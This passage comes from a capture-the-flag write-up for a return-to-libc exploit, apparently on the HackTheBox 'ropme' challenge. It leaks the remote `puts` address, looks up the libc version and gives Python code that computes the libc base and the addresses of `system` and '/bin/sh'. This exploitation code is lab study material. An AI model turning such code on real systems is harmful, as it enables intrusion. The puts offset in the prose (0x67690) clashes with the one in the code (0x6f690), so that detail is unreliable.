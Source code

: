 Great! we have successfully leaked the address of `puts` on the remote machine. Let's look at that in libc database to maybe learn the version of libc on the remote machine:

![libc_db_second_1](./ropme/libc_1.png)
![libc_sb_second_2](./ropme/libc_2.png)
We got 2 matches, but both indicate the same libc version so the offset of the important stuff is the same (I checked). You can try as an exercise to call the server again and have it leak the location of `puts` again if you feel uncertain, or have the process return again to `puts` and this time also print the location of `fflush` and `fgets`. Clicking on one of the versions we see:

![libc_sb_second_3](./ropme/libc_3.png)

Awesome! offsets of everything we look for! so in this leak, the virtual address we have for `puts` was `0x7f53bed07690`, which according to the table above, means that the libc base was at `0x7f53bed07690 - 0x67690 = 0x7f53beca0000`.

Definitely looks like a valid libc base.

Let's enhance the code to use this information to compute the virtual address of `system` and `"/bin/sh"`

```Python
def compute_libc_base_from_puts(puts_va):
    # remote machine uses libc v2.23
    puts_offset_in_libc = 0x6f690
    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))


    ans = conn.recv(1024)    
    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "Virtual address of puts is: 0x" + binascii.hexlify(ans)

    libc_base = compute_libc_base_from_puts(int(binascii.hexlify(ans), 16))
    print "Base of libc:", hex(libc_base)
    print "Address of system: ", hex(libc_base + 0x45390)
    print "Address of binsh: ", hex(libc_base + 0x18cd57)
```


[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me